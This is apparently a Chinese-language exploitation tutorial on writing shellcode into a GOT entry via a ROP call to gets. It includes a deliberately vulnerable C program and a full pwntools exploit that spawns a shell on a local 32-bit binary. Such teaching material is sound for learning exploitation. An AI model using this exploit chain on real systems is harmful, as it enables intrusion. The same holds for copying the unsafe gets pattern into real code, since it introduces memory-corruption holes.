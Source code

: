 ```yaml
---
title: 'ROP 和 Shellcode'
date: '2023-08-29'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '通过控制 `gets` 的写入位置，把 shellcode 放在预设的地方。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把 `gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在任意位置，然后执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。

```python showLineNumbers
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

LINK

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets`，也不知道 GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，例如 `5.9.0`，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0`，如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode（如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

